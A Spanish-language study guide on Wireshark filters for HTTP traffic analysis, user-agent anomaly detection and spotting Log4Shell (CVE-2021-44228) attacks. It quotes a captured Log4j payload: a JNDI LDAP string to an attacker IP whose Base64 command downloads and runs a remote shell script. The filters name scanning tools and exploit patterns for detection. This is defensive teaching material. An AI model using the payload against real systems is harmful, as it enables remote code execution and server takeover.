 
# HTTP Analysis
El Protocolo de Transferencia de Hipertexto (HTTP) es un protocolo en texto plano, de solicitud-respuesta y cliente-servidor. Es el tipo estándar de actividad de red para solicitar/servir páginas web y, por defecto, no está bloqueado por ningún perímetro de red. Como resultado de ser no encriptado y la columna vertebral del tráfico web, HTTP es uno de los protocolos que se deben conocer en el análisis de tráfico.

Los siguientes ataques podrían ser detectados con la ayuda del análisis de HTTP:
- Páginas de phishing.
- Ataques web.
- Exfiltración de datos.
- Tráfico de comando y control (C2)


## Filtros Wireshark para HTTP ANALYSIS
- Búsqueda global:
  ```
  http
  http2
  ```
  Nota: HTTP2 es una revisión del protocolo HTTP para un mejor rendimiento y seguridad. Soporta la transferencia de datos binarios y el multiplexado de solicitud y respuesta.

- HTTP Request Methods:
  - GET:
    ```
    http.request.method == "GET"
    ```

  - POST:
    ```
    http.request.method == "POST"
    ```

  - Request: Listing all requests:
    ```
    http.request
    ```

- HTTP Response Status Codes:
  - 200 OK: Request successful:
    ```
    http.response.code == 200
    ```
  - 301 Moved Permanently: Resource is moved to a new URL/path (permanently).
  - 302 Moved Temporarily: Resource is moved to a new URL/path (temporarily).
  - 400 Bad Request: Server didn't understand the request.
  - 401 Unauthorised: URL needs authorisation (login, etc.):
    ```
    http.response.code == 401
    ```
  - 403 Forbidden: No access to the requested URL.
  - 404 Not Found: Server can't find the requested URL.
  - 405 Method Not Allowed: Used method is not suitable or blocked.
  - 408 Request Timeout:  Request look longer than server wait time.
  - 500 Internal Server Error: Request not completed, unexpected error.
  - 503 Service Unavailable: Request not completed server or service is down.


- HTTP Parameters:
  - User agent: Browser and operating system identification to a web server application:
    ```
    http.user_agent contains "nmap"
    ```
  - Request URI: Points the requested resource from the server:
    ```
    http.request.uri contains "admin"
    ```
  - Full *URI: Complete URI information:
    ```
    http.request.full_uri contains "admin"
    ```

Nota: *URI: Uniform Resource Identifier. Es una cadena de caracteres que se utiliza para identificar un recurso en la red. Los URIs proporcionan una forma de localizar un recurso especificando su ubicación en una red. Un URI puede ser
- Un URL (Uniform Resource Locator), que es el tipo más común de URI y especifica no solo la identidad del recurso sino también cómo acceder a él (como http://www.example.com).
- Un URN (Uniform Resource Name), que identifica el recurso de manera única sin especificar cómo localizarlo.

- HTTP Parameters:
  - Server: Server service name:
    ```
    http.server contains "apache"
    ```
  - Host: Hostname of the server:
    ```
    http.host contains "keyword"
    http.host == "keyword"
    ```
  - Connection: Connection status:
    ```
    http.connection == "Keep-Alive"
    ```
  - Line-based text data: Cleartext data provided by the server:
    ```
    data-text-lines contains "keyword"
    ```
  - HTML Form URL Encoded: Web form information: Un filtro que se centre en el tipo de contenido MIME utilizado por estos formularios al ser enviados. Los formularios web codificados en URL típicamente usan el tipo de contenido application/x-www-form-urlencoded para el cuerpo de la solicitud POST.
    ```
    http.request.method == "POST" && http.content_type == "application/x-www-form-urlencoded"
    ```



## Filtros Wireshark para USER AGENT ANALYSIS
A medida que los adversarios utilizan técnicas sofisticadas para llevar a cabo ataques, intentan dejar rastros similares al tráfico natural a través de los protocolos conocidos y confiables. Para un analista de seguridad, es importante detectar los signos de anomalía en los bits y piezas de los paquetes. El campo "user-agent" es uno de los grandes recursos para detectar anomalías en el tráfico HTTP. En algunos casos, los adversarios modifican con éxito los datos del user-agent, lo que podría parecer completamente natural. 

Un analista de seguridad no puede confiar únicamente en el campo del user-agent para detectar una anomalía. Nunca incluyas en una lista blanca un user agent, incluso si parece natural. La detección/búsqueda de anomalías/amenazas basada en el user agent es una fuente de datos adicional para verificar y es útil cuando hay una anomalía obvia. Si no estás seguro acerca de un valor, puedes realizar una búsqueda web para validar tus hallazgos con la información del user-agent por defecto y normal ([sitio de ejemplo](https://developers.whatismybrowser.com/useragents/explore/)).

- Búsqueda global:
  ```
  http.user_agent
  ```

- Resultados de la investigación:
  - Different user agent information from the same host in a short time notice.
  - Non-standard and custom user agent info.
  - Subtle spelling differences. ("Mozilla" is not the same as  "Mozlilla" or "Mozlila").
  - Audit tools info like Nmap, Nikto, Wfuzz and sqlmap in the user agent field.
  - Payload data in the user agent field.
  ```
  (http.user_agent contains "sqlmap") || (http.user_agent contains "Nmap") || (http.user_agent contains "Wfuzz") || (http.user_agent contains "Nikto")

  ! (http.user_agent contains "Chrome") && ! (http.user_agent contains "Mozilla")
  ```

![](capturas/wireshark-http-analysis.png)


# Análisis de Log4j
Revisemos lo conocido sobre el ataque "Log4j" antes de iniciar Wireshark.


## Ejemplo de captura del tráfico de un ataque Log4j
```
User-Agent: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}\r\n

- User-Agent: Este es el campo del encabezado HTTP que normalmente indica qué navegador o cliente HTTP está haciendo la solicitud.
- ${jndi:ldap://...}: Esta es la parte crítica que explota la vulnerabilidad Log4Shell (CVE-2021-44228) en Log4j. Permite la ejecución remota de código a través de la inyección de una cadena maliciosa.
  - jndi: Java Naming and Directory Interface, una API de Java para servicios de directorio que permite a las aplicaciones Java descubrir y obtener datos o recursos usando un nombre.
  - ldap: Lightweight Directory Access Protocol, un protocolo para acceder y mantener servicios de directorio distribuidos.
  
- ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Esta URL LDAP apunta a un servidor controlado por el atacante (45.137.21.9 en el puerto 1389). El path que sigue especifica un comando codificado en Base64 que el servidor vulnerable intentará ejecutar.

- d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Este es el comando codificado en Base64. Decodificado, se traduce a una secuencia de comandos shell que realiza lo siguiente:
  - Descarga un script (probablemente malicioso) de http://62.210.130.250/lh.sh.
  - Cambia los permisos del script descargado para hacerlo ejecutable (chmod +x lh.sh).
  - Ejecuta el script descargado (./lh.sh).
```

El objetivo de esta inyección es forzar al servidor que utiliza Log4j a ejecutar código arbitrario, lo que podría resultar en el control remoto del servidor por parte del atacante. Es una explotación grave que subraya la importancia de mantener actualizado el software para incluir parches de seguridad contra vulnerabilidades conocidas.

## Filtros wireshark para Log4j
- Research outcomes:
  - The attack starts with a "POST" request.
    ```
    http.request.method == "POST"
    ```
  - There are known cleartext patterns: "jndi:ldap" and "Exploit.class".
    ```
    (ip contains "jndi") or ( ip contains "Exploit")
    (frame contains "jndi") or ( frame contains "Exploit")
    (http.user_agent contains "$") or (http.user_agent contains "==")
    ```
![](capturas/wireshark-Log4j.png)

Detalle del tráfico en el Log4Shell:
![](capturas/wireshark-log4shell.png)














